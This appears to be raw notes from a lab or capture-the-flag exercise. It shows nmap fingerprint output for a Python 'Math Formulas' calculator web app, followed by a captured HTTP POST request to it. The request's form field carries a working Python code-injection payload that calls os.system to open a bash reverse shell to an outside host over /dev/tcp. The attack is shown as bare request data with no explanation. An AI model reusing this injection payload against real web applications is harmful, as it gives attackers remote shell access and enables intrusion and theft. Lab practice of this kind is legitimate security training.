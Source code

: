 SF:OXxcvSN1TPprVMTNDbiYZCxYbOOl7\+AMvyTG2x\"\x20crossorigin=\"anonymous\">
SF:\n\n\x20\x20\x20\x20<title>Math</title>\n\x20\x20</head>\n\x20\x20<body
SF:>\n\x20\x20\x20\x20<p\x20id=\"title\">Math\x20Formulas</p>\n\n\x20\x20\
SF:x20\x20<main>\n\x20\x20\x20\x20\x20\x20<section>\x20\x20\n\n\t\t\t\t<h3\x20id=\"titles\">\x20F
SF:eel\x20free\x20to\x20use\x20any\x20of\x20the\x20calculators\x20below:</
SF:h3>\n\x20\x20\x20\x20\x20\x20\x20\x20<br>\n\t\t\t\t<article>\x20\n\t\t\t\t\t\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20<h4\x20id=\"titles\">Quadratic\x20formula</h
SF:4>\x20\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20<form\x20met")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\
SF:x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20
SF:\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv
SF:=\"Content-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20<
SF:/head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Err
SF:or\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\
SF:x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20reque
SF:st\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<p>Error\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Ba
SF:d\x20request\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x
SF:20\x20</body>\n</html>\n");
MAC Address: 16:FF:F6:11:A9:EF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.72 seconds






POST / HTTP/1.1
Host: 10.201.41.12:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://10.201.41.12:5000
Connection: close
Referer: http://10.201.41.12:5000/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

xa=__import__('os').system('/bin/bash -c \'bash -i >%26 /dev/tcp/10.201.68.205/1234 0>%261\'')#&xb=3









